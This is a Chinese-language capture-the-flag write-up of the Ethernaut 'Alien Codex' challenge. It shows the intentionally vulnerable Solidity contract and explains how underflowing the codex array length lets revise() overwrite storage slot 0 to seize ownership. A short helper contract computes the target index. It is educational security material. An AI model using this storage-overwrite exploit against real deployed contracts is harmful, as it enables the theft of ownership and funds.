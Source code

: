 ## Alien Codex

改变合约所有权

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

合约开头 import 了 [openzeppelin-contracts/Ownable.sol (github.com)](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/access/Ownable.sol) 合约，同时也引入了一个 owner 变量

对于数组来说，首先占据一个插槽 slot p，这个插槽里是动态数组的长度，会把输入的`index`和`SLOAD(p)`的值进行比较，防止数组越界访问，然后数组的元素存储位置在 `keccak256(p)+index`

此处slot0是owner和contract，slot1是codex数组的长度，codex[i]的存储位置是 `keccak256(1) + i`

只要设计好 i 就能修改slot0

先调用retract()，让length下溢，变为2^256-1，这样就可以访问到全部的 storage 区域

要满足keccak256(1) + i = 0 = 2^256，得到 i = 2^256 - keccak256(1)

```js
pragma solidity ^0.6.0;

contract Exp {
  function calc() public view returns (uint) {
        bytes32 f3 = keccak256(abi.encode(bytes32(uint(1))));
        return 2**256-1 -uint(f3) +1;
  }
}
//得到35707666377435648211887908874984608119992236509074197713628505308453184860938
```

